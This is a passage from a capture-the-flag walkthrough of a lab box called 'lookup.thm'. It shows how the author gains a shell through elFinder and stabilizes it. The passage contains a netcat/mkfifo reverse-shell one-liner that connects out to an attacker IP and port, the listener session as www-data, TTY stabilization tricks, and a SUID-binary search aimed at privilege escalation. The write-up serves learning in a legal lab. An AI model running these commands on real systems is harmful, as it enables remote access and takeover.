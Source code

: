 ### Shell Stabilization

Now that we have a meterpreter connection, we can get the [[Shell]] by typing the command `shell` but this shell is unstable so let's do some [[Shell Stabilization]] after transfered it to our machine :

- On the unstable shell `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.8.162.183 4444 >/tmp/f`
- On attacking system `nc -lvnp 4444`  [[Netcat]] :

```
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.181.47] 60502
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html/elFinder/php$ ls

```

Now stabilize :

```
www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ export TERM=xterm

www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ ^Z

zsh: suspended  nc -lvnp 4444

┌──(hax㉿HaxonKali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               reset

```

Once we have a stable shell let’s check what are the processes that can be run as sudo user `find / -type f -perm -u=s -ls 2>/dev/null` :

```
www-data@ip-10-10-181-47:/home/think$ find / -type f -perm -u=s -ls 2>/dev/null
      297    129 -rwsr-xr-x   1 root     root       131832 May 27  2023 /snap/snapd/19457/usr/lib/snapd/snap-confine
      847     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /snap/core20/1950/usr/bin/chfn
      853     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /snap/core20/1950/usr/bin/chsh
      922     87 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /snap/core20/1950/usr/bin/gpasswd
     1006     55 -rwsr-xr-x   1 root     root        55528 May 30  2023 /snap/core20/1950/usr/bin/mount
     1015     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /snap/core20/1950/usr/bin/newgrp
     1030     67 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /snap/core20/1950/usr/bin/passwd
     1140     67 -rwsr-xr-x   1 root     root        67816 May 30  2023 /snap/core20/1950/usr/bin/su
     1141    163 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /snap/core20/1950/usr/bin/sudo
     1199     39 -rwsr-xr-x   1 root     root        39144 May 30  2023 /snap/core20/1950/usr/bin/umount
     1288     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1950/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```